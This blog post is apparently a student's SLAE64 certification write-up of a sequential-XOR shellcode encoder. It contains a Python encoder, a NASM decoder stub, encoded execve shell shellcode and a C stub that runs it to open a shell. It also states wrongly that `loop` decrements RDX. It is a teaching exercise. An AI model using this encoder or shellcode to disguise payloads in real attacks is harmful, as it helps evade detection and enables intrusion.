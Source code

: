 Assignment #4 – Custom Encoder
==============================

The objective of this assignment was to create a custom encoding scheme for shellcodes; and write a proof-of-concept that would decode a stack-based `execve` shellcode and executed it.

Encoder design
--------------

After thinking a bit I decided I wanted to design a simple encoding scheme that would xor consecutive bytes of the shellcode. I also decided I wanted a scheme that would make it possible to encode the same input into different outputs.

### The encoder

A diagram for the encoder can be seen below. Each cell is a byte. `n` is an arbitrary byte you can choose so that different encodings can be generated for the same shellcode.

The first byte of the shellcode (`i0`) is xored with `n`, resulting in an encoded byte `o0`. Then, the second byte of the input (`i1`) is xored with the first encoded byte (`o0`) to produce `o1`. And the process repeats until all shellcode bytes have been encoded.

    +-----+-----+-----+-----+-----+
    |  n  | i0  | i1  | i2  | i3  |
    +-----+-----+-----+-----+-----+
      |     ↓     ↓     ↓      ↓
      | ┌--→⊕ ┌--→⊕ ┌--→⊕ ┌---→⊕
      ↓ |   ↓ |   ↓ |   ↓ |    ↓
    +-----+-----+-----+-----+-----+
    |  n  | o0  | o1  | o2  | o3  |
    +-----+-----+-----+-----+-----+

### The decoder

From the diagram of the encoder and knowing that `a XOR b = c` and `c XOR b = a` we notice that by xoring two consecutive bytes of the output we can obtain one byte of the shellcode. For example `o1 XOR o2 = i2`.

Implementation
--------------

### Encoder

I wrote the encoder in Python. The shellcode is passed as an argument. A second argument can be used to pass byte `n`, which if not provided will be chosen randomly. The script produces two different output formats.

    #!/usr/bin/env python3
    import sys
    from random import randint

    shellcode = bytes.fromhex(sys.argv[1].replace('\\x', ''))

    if len(sys.argv) == 3:
        output = [int(sys.argv[2], 0)]
    else:
        output = [randint(1, 255)]

    for b in shellcode:
        xored_byte = b ^ output[-1]
        output.append(xored_byte)

    output = bytes(output)

    print()
    print(''.join([hex(b) for b in output]).replace('0x', '\\x'))
    print()
    print(','.join([hex(b) for b in output]))

Below an example of encoding a stack-based `execve` shellcode using `n = 0xaa`.

    $ ./seq-xor-encoder.py '\x31\xc0\x50\x54\x5a\x48\xbe\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x54\x5f\x50\x57\x54\x5e\xb0\x3b\x0f\x05' 0xaa

    \xaa\x9b\x5b\xb\x5f\x5\x4d\xf3\xdc\xbe\xd7\xb9\x96\xb9\xca\xa2\xf4\xa0\xff\xaf\xf8\xac\xf2\x42\x79\x76\x73

    0xaa,0x9b,0x5b,0xb,0x5f,0x5,0x4d,0xf3,0xdc,0xbe,0xd7,0xb9,0x96,0xb9,0xca,0xa2,0xf4,0xa0,0xff,0xaf,0xf8,0xac,0xf2,0x42,0x79,0x76,0x73

### Decoder

Below you can see a NASM implementation for the decoder.

    global _start

    _start:
        jmp decoder
        encoded_shellcode: db 0xaa, 0x9b,0x5b,0xb,0x5f,0x5,0x4d,0xf3,0xdc,0xbe,0xd7,0xb9,0x96,0xb9,0xca,0xa2,0xf4,0xa0,0xff,0xaf,0xf8,0xac,0xf2,0x42,0x79,0x76,0x73
        shellcode_len: db $ - encoded_shellcode

    decoder:
        xor ecx, ecx
        lea rdx, [rel shellcode_len]
        mov cl, [rdx]
        sub rdx, rcx
        mov al, [rdx]

    decoder_loop:
        inc rdx
        xchg [rdx], al
        xor [rdx], al
        loop decoder_loop
        jmp encoded_shellcode + 1

First we have the encoded shellcode we obtained in the previous section and a byte representing its length. The decoder proper starts by loading the address where the length is stored into RDX. Then the length is loaded into CX. Then RDX is adjusted to point to the start of the shellcode. This could be done directly with a `lea rdx, [rel encoded_shellcode]` but this would take more bytes because the relative address alone would take four bytes (you can try it yourself). Finally we load the byte corresponding to `n` into AL.

Now we have a loop. This loop xors consecutive bytes of the encoded shellcode to obtain the original shellcode. The encoded bytes are overwritten with the decoded ones. Since we are overwriting the encoded byte but need it to decode the next byte, we need to store the former somewhere. By swapping the previous encoded byte (in AL) with the current encoded byte (pointed to by RDX) the former will be kept in AL to be used in the next iteration. Then we can xor the two values and obtain the decoded byte and can move to the next iteration. The same could be accomplished by using an auxiliary register, but the solution with `xchg` results in a shorter decoder.

    decoder_loop:
        inc rdx
        mov bl, [rdx]
        xor [rdx], al
        mov al, bl
        loop decoder_loop

When will the loop end? Each time `loop` is executed RDX is decremented: if it becomes zero, execution continues to the next instruction; otherwise it continues at the label provided to `loop`, which is `decoder_loop` in this case. Once the loop finishes the full shellcode has been decoded. So now we can jump to it and continue execution. You may have noticed in fact the jump is to `encoded_shellcode + 1`. Why? Because we need to skip the byte for `n`, which is not part of the shellcode.

A quick check reveals no null bytes. We're good.

    $ nasm -felf64 seq-xor-decoder.nasm
    $ objdump -M intel -d seq-xor-decoder.o | grep " 00"

Conclusion
----------

All that's left to do is test the decoder.

    $ objdump -d seq-xor-decoder.o | grep -P ":\t" | cut -f2 | tr -d ' \n' | sed -e 's/../\\x&/g'; echo
    \xeb\x1c\xaa\x9b\x5b\x0b\x5f\x05\x4d\xf3\xdc\xbe\xd7\xb9\x96\xb9\xca\xa2\xf4\xa0\xff\xaf\xf8\xac\xf2\x42\x79\x76\x73\x1b\x31\xc9\x48\x8d\x15\xf6\xff\xff\xff\x8a\x0a\x48\x29\xca\x8a\x02\x48\xff\xc2\x86\x02\x30\x02\xe2\xf7\xeb\xca

Place it in a testing stub.

    #include <stdio.h>
    #include <string.h>

    char code[] =
    "\xeb\x1c\xaa\x9b\x5b\x0b\x5f\x05\x4d\xf3\xdc\xbe\xd7\xb9\x96\xb9\xca\xa2"
    "\xf4\xa0\xff\xaf\xf8\xac\xf2\x42\x79\x76\x73\x1b\x31\xc9\x48\x8d\x15\xf6"
    "\xff\xff\xff\x8a\x0a\x48\x29\xca\x8a\x02\x48\xff\xc2\x86\x02\x30\x02\xe2"
    "\xf7\xeb\xca";

    int main() {
        printf("length: %lu\n", strlen(code));
        ((int(*)()) code)();
    }

    $ gcc -Wall -z execstack shellcode.c -o shellcode
    $ ./shellcode
    length: 57
    sh-5.0$ whoami
    goncalor

The shellcode was decoded and executed as intended.

That's all. Thank you for reading.

----

This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert][SLAE64] certification.

Student ID: SLAE64-1635

[SLAE64]: https://www.pentesteracademy.com/course?id=7
